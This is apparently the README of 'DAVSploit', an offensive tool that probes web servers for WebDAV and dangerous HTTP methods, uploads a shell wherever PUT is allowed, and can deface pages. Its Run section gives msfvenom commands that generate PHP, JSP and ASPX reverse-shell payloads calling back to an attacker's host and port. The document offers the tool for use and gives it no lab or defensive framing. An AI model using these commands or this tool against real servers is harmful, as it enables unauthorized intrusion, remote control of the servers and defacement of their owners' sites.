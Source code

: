 # DAVSploit
DAV Vulnerbility

[DAVSploit]

<center><img src="https://github.com/darkseid-security/DAVSploit/blob/main/IMG/davsploit.png"></center>


DAVSploit tool is for automating checking for PUT,MOVE,COPY and DELETE HTTP methods
aswell as automating webdav exploitation.

Features
================
- Automatically checks PUT,MOVE,COPY and DELETE for webserver
- Automatically checks for web dav directories if they exists and gets HTTP allow methods
- if PUT exits will try to automatically upload a shell
- Built in Server detection, payload that matches server version will be sent
- Three diffrent payload types PHP,JSP,ASPX and HTML
- Colored UI
- HTML payload includes deface web page


Davsploit V2
==============
- Add more payloads
- Add more webservers to detection list
- Fix false positive with PUT method
- Perform content discovery and create wordlist to scan more directories


Run
===============
Create a PHP reverse shell
- msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php<br>
Create a JSP reverse shell
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f raw > shell.jsp<br>
Create a ASPX reverse shell
- msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<Port> -f aspx > shell.aspx<br>

python3 DAVSploit.py
